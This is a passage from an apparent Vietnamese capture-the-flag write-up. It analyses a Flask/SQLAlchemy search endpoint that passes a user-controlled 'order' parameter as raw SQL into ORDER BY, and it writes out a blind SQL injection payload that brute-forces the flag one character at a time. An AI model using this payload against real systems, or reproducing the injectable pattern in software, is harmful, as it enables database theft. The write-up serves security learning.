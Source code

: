 Đọc source code, ta thấy đoạn

```python
if order is None:
    metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
else:
    metals = Metal.query.filter(
        Metal.name.like("%{}%".format(search))
    ).order_by(text(order))
```

Sẽ thực hiện query SQL → khả năng cao bài này khai thác SQLi (lỗi mà bên công ty bảo mật B... à mà thôi 🤡) 

Dựng server từ source code được cung cấp. Thử bấm bừa `order=abc` ta thấy bị code 500 (do không có cột nào tên là `abc`). Đọc log được query mà server sử dụng.

![Untitled](writeup_media/Untitled%2013.png)

Như vậy, param `search` không thể (hoặc rất khó) bị khai thác. Nhưng phần `ORDER BY` lại là raw query sử dụng param `order` do ta kiểm soát.

Sau một hồi thử và sai và thử và sai, mình craft được payload cho param`order`như sau , trong đó `§pos§` và `§char§` là 2 vị trí mà ta sẽ sử dụng để brute-force ký tự trong flag

```sql
(SELECT CASE
           WHEN (SELECT HEX(SUBSTR(flag, §pos§, 1)) FROM flag) = HEX('§char§')
               THEN atomic_number
           ELSE name
           END)
```
